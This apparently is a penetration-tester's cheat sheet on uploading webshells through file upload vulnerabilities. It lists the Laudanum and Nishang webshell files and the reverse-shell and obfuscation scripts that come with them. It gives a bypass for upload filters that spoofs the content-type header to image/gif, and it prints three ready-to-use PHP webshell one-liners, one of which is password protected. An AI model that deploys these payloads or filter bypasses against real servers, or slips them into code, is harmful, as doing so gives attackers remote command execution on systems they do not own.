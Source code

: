 https://github.com/jbarcia/Web-Shells/tree/master/laudanum
https://github.com/samratashok/nishang
https://github.com/WhiteWinterWolf/wwwolf-php-webshell
## Why am I here?
##### To upload a webshell via a file upload vulnerability. 
## Laudanum
##### Location -

```bash
/usr/share/laudanum/aspx/shell.aspx 
```
##### Available shells in /usr/share/laudanum :

| Language | File(s)                                           | Use Case                  |
| -------- | ------------------------------------------------- | ------------------------- |
| **ASP**  | `shell.asp`, `cmd-asp.aspx`, `shell-upload-2.asp` | Windows IIS               |
| **PHP**  | `cmd.php`, `shell-php.php`, `shell-upload.php`    | Linux + Apache/Nginx      |
| **JSP**  | `cmd.jsp`, `jsp-reverse.jsp`                      | Tomcat/Java web apps      |
| **ASPX** | `shell.aspx`, `cmd.aspx`                          | ASP.NET IIS               |
| **HTML** | `form-get.html`, `form-post.html`                 | Client-side testing forms |
## Antak webshell - Nishang
##### Location - 

```bash
/usr/share/nishang/Antak-WebShell/antak.aspx
```
##### Not just antak.aspx:
- ReverseShell.ps1
- Invoke-PowerShellTcp.ps1
- Out-EncodedCommand.ps1 (for obfuscated one-liners)
## PHP Webshell
https://github.com/WhiteWinterWolf/wwwolf-php-webshell

Change content type header from `application/x-php` to `image/gif` to bypass server side validation.
### Simple 1-liner:

```php
<?php system($_GET['cmd']); ?>
```
### More advanced:

```php
<?php echo shell_exec($_REQUEST['cmd']); ?>
```
### Password protected:

```php
<?php if($_GET['p']=='1337'){ system($_GET['cmd']); } ?>
```
# Tags
> #Pre-Exploitation #Shells #Nishang #Payloads #Web-Shells